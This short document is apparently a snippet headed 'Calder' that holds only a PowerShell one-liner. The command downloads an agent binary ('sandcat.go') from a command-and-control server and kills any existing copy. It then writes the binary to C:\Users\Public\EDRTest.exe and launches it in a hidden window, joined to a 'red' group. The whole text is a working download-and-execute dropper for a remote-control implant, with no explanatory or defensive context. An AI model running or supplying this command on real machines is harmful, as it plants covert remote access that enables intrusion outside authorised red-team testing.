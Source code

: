 # Calder


$server="http://localhost:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\EDRTest.exe"} | stop-process -f;rm -force "C:\Users\Public\EDRTest.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\EDRTest.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\EDRTest.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
